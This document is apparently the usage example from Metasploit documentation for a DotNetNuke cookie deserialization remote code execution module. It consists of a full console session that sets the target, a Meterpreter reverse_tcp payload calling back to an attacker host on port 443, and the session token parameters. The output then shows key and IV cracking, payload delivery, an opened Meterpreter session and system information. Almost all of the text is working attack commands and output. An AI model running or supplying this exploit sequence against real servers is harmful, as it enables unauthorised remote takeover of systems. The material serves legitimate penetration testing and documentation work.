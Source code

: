   ```
  msf > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8090
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE /dnn930rc_verification_codes.txt
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set SESSION_TOKEN 306A9A382E32E420739C589CCD5C44A7C2595A7163D3340DF4AD71D4223AFC6866E823F36C6171F84FD7352E6BEB17D66B9823567557988321A0867C7038FF6B0F5B0C1F943CBBDAC0B2EE3E
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > set TARGET 4
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [+] 192.168.31.131:8090 - The target is vulnerable.
  msf exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 420798.449 keys/s ...... 15.24% of keyspace complete.
  [+] Possible Base Key Value Found: 2660A22D
  [*] Total number of Keys tried: 6558182
  [*] Time to crack: 15.585 seconds
  [*] Generated 128 possible base KEY values from 2660A22D
  [!] Finding possible base IVs. This may take a few minutes...
  [*] Found 4 potential Base IV values using 10 verification codes in 42.82 seconds.
  [*] Generated 512 possible base64 KEY and IV combinations.
  [!] Trying all possible KEY and IV combinations...
  [*] Starting HTTP listener on port 8080...
  [*] Using URL: http://192.168.31.128:8080/fCyQGz78
  [!] Sending 512 test Payload(s) to: /__. This may take a few minutes ...
  [*] Trying KEY and IV combination 440 of 512...
  [+] KEY: ByEypXIT and IV: zhKad5QC found
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49973) at 2019-07-10 15:39:12 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ``` 

